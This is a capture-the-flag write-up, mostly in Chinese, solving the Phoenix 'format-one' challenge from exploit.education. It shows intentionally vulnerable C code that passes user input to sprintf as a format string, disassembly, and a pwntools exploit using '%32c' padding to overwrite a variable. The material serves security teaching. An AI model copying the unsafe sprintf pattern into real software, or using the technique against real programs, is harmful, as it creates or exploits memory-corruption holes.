

```c
FORMAT ONE
Even more format string fun!

Source code
/*
 * phoenix/format-one, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * Why did the Tomato blush? It saw the salad dressing!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```

这个题挑战成功的条件是：

```c
locals.changeme != 0x45764f6c
```

其实就是想让我们把 `changeme` 覆盖成  `0x45764f6c`

还是利用 格式化字符串的漏洞来制造 `Buffer Overflow` 

就在 ：` sprintf(locals.dest, buffer);`

这里，汇编：


format string 漏洞的原因就是：既把输入当成格式化字符串又把输入当成第二个参数

```asm
        00400742 48 8d 55 c0     LEA        RDX=>local_48,[RBP + -0x40]
        00400746 48 8d 45 d0     LEA        RAX=>local_38,[RBP + -0x30]
        0040074a 48 89 d6        MOV        RSI,RDX
        0040074d 48 89 c7        MOV        RDI,RAX
        00400750 b8 00 00        MOV        EAX,0x0
                 00 00
        00400755 e8 f6 fd        CALL       sprintf                                          
                 ff ff
```

好了，不说别的，解题，现在很累，有时间再详解

这里要溢出  `locals.dest(rbp - 0x30)`  这个 `buffer` 去覆盖 `changeme(rbp - 0x10)`

 中间要填充 `32 Bytes`

但是我们只能输入 `16` 个 `Bytes` 


可以利用  `%32c` 来让 `sprintf`  帮我们往  `locals.dest` 写入 `32` 个字符

然后再写入  `0x45764f6c`

payload:

```python
from pwn import *

p = process("./format-one")
v = 0x45764f6c
exp = b"%32c"
exp += p64(v)

p.sendline(exp)
p.interactive()
```



pwn!